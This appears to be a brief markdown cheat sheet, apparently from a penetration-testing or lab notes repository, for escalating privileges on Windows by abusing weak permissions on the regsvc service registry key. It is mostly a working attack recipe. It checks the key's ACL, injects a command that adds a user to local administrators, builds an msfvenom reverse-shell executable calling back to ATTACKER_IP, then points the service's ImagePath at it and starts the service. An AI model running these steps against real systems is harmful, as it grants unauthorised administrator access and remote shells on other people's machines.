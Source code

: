 # Registry

## Steps:

#### 1: 

    Get-Acl -Path hklm:\system\CurrentControlSet\Services\regsvc | fl

#### 2: Check permissions of "NT AUTHORITY\INTERACTIVE" and "Everyone" if they have full file access or something similar.

#### 3: Copy the service to attacking machine.

#### 4: Change the system() function to insert command: 

    "cmd.exe /k net localgroup administrators USER /add"
    
#### or a ready reverse shell payload.

    msfvenom -p windows/shell_reverse_tcp lhost=ATTACKER_IP lport=ATTACKER_PORT -f exe > x.exe 

#### 5: Compile with x86_64-w64-mingw32-gcc then copy to target.

#### 6: 

    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f 
    
#### 7:

    sc start regsvc
